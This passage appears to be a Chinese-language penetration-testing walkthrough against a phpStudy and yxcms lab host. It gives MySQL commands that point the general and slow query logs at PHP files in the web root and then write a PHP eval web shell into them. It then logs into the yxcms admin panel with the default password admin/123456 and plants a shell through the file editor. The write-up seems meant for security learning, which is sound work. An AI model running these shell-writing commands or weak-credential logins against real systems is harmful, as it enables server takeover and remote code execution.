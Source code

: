 ```mysql
set global general_log = on;
set global general_log_file = 'C:/phpStudy/WWW/hhh.php';
select @@general_log,@@general_log_file,@@datadir;
```

okk，全局日志以及路径都设置好了，接下来就是写shell了

（ps：这里的www路径可以在探针里看，也可以利用@@datadir爆出phpstudy路径，然后根据默认路径找到www）
![](https://i.loli.net/2021/03/18/8x9qDXUIEwoNbVT.png)

```mysql
select '<?php eval($_POST[hhh]);?>'
```

![](https://i.loli.net/2021/03/18/qfaN7S8PvFMn5yc.png)

文件内容如下，就是一个存储命令和状态的日志
![](https://i.loli.net/2021/03/18/KtlRNa18eAsyBc7.png)

蚁剑连接即可：

![](https://i.loli.net/2021/03/18/xRuFK9zbdq4Zs6j.png)

###### 使用慢查询日志getshell

- 慢查询日志：
  记录所有执行时间超过long_query_time秒的所有查询或者不使用索引的查询。默认情况下，MySQL数据库是不开启慢查询日志的，long_query_time的默认值为10（即10秒，通常设置为1秒），即运行10秒以上的语句是慢查询语句
  （ps：和全局日志一样都是讲恶意语句写入日志中，只是二者记录的条件不同）
- 步骤：
  - 查看相关参数：`show variables like '%slow%';`
  - 启用慢查询日志，并修改路径：
    `set global slow_query_log_file = 'C:/phpStudy/WWW/hhh2.php';`
    `set GLOBAL slow_query_log=on;`
  - 写入shell：`select '<?php eval($_POST[hhh]);?>' from mysql.db where sleep(10);`

![](https://i.loli.net/2021/03/18/57lRmE3kZtqGo8A.png)
![](https://i.loli.net/2021/03/18/jDBZV9ymuG6r37c.png)j

看一下www目录下还有个yxcms，em看了这里也可以getshell，那么就来看一下吧

#### yxcms后台getshell

搜了一下相关漏洞，后台getshell好像更容易一些
后台路径：`ip/yxcms/index.php?r=admin`,又是弱口令：admin、123456直接登入了，不得不说弱口令yyds
（说起来学校也是好多弱口令，当然我没打过啊，只是知道密码--）

在后台里可以直接 新建 | 修改文件内容，那么直接上马，连接即可

![](https://i.loli.net/2021/03/18/N21VQTJFhci98kO.png)



外网大概就是到这里0。0，内网还在研究，需要学习一下msf和cs的使用
